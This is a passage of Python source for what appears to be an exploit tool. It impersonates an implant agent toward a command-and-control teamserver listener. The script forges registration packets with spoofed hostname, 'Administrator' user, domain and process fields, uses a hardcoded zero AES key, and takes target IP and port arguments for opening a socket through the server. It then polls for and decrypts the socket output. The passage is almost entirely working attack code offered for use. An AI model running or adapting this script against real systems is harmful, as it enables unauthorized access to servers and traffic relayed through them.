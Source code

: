 ```python

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    data = agent_header + header_data


    print("[***] Trying to poll teamserver for socket output...")
    r = requests.post(teamserver_listener_url, data=data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Read socket output successfully!")
    else:
        print(f"[!!!] Failed to read socket output - {r.status_code} {r.text}")
        return ""


    command_id = int.from_bytes(r.content[0:4], "little")
    request_id = int.from_bytes(r.content[4:8], "little")
    package_size = int.from_bytes(r.content[8:12], "little")
    enc_package = r.content[12:]

    return decrypt(AES_Key, AES_IV, enc_package)[12:]



parser = argparse.ArgumentParser()
parser.add_argument("-t", "--target", help="The listener target in URL format", required=True)
parser.add_argument("-i", "--ip", help="The IP to open the socket with", required=True)
parser.add_argument("-p", "--port", help="The port to open the socket with", required=True)
parser.add_argument("-A", "--user-agent", help="The User-Agent for the spoofed agent", default="Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36")
parser.add_argument("-H", "--hostname", help="The hostname for the spoofed agent", default="DESKTOP-7F61JT1")
parser.add_argument("-u", "--username", help="The username for the spoofed agent", default="Administrator")
parser.add_argument("-d", "--domain-name", help="The domain name for the spoofed agent", default="ECORP")
parser.add_argument("-n", "--process-name", help="The process name for the spoofed agent", default="msedge.exe")
parser.add_argument("-ip", "--internal-ip", help="The internal ip for the spoofed agent", default="10.1.33.7")

args = parser.parse_args()


# 0xDEADBEEF
magic = b"\xde\xad\xbe\xef"
teamserver_listener_url = args.target
headers = {
        "User-Agent": args.user_agent
}
agent_id = int_to_bytes(random.randint(100000, 1000000))
AES_Key = b"\x00" * 32
AES_IV = b"\x00" * 16
hostname = bytes(args.hostname, encoding="utf-8")
username = bytes(args.username, encoding="utf-8")
domain_name = bytes(args.domain_name, encoding="utf-8")
internal_ip = bytes(args.internal_ip, encoding="utf-8")
process_name = args.process_name.encode("utf-16le")
process_id = int_to_bytes(random.randint(1000, 5000))

register_agent(hostname, username, domain_name, internal_ip, process_name, process_id)
```